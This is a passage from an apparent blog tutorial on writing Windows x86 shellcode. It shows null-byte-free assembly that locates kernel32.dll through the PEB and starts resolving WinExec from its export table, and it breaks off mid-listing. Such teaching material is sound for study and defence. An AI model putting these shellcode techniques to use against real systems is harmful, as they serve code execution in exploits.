 # <a name="write_shellcode"></a> Write the shellcode  
---
Now that you're familiar with the basic principles of a Windows shellcode it's time to write it. It's not much different than the code snippets I already showed, just have to glue them together, but with minor differences to avoid null bytes. I used [flat assembler](https://flatassembler.net/) to test my code.

The instruction "mov ebx, fs:0x30" contains three null bytes. A way to avoid this is to write it as:
```nasm
xor esi, esi	; esi = 0
mov ebx, [fs:30h + esi]
```
![null_bytes](https://idafchev.github.io/blog/assets/images/windows_shellcode/null_bytes.png){: .align-center}  

The whole assembly for the shellcode is below:

```nasm
format PE console
use32
entry start

  start:
        push eax ; Save all registers
        push ebx
        push ecx
        push edx
        push esi
        push edi
        push ebp

	; Establish a new stack frame
	push ebp
	mov ebp, esp

	sub esp, 18h 			; Allocate memory on stack for local variables

	; push the function name on the stack
	xor esi, esi
	push esi			; null termination
	push 63h
	pushw 6578h
	push 456e6957h
	mov [ebp-4], esp 		; var4 = "WinExec\x00"

	; Find kernel32.dll base address
	xor esi, esi			; esi = 0
        mov ebx, [fs:30h + esi]  	; written this way to avoid null bytes
	mov ebx, [ebx + 0x0C] 
	mov ebx, [ebx + 0x14] 
	mov ebx, [ebx]	
	mov ebx, [ebx]	
	mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
	mov [ebp-8], ebx 		; var8 = kernel32.dll base address

	; Find WinExec address
	mov eax, [ebx + 3Ch]		; RVA of PE signature
	add eax, ebx       		; Address of PE signature = base address + RVA of PE signature
	mov eax, [eax + 78h]		; RVA of Export Table
	add eax, ebx 			; Address of Export Table

	mov ecx, [eax + 24h]		; RVA of Ordinal Table
	add ecx, ebx 			; Address of Ordinal Table
```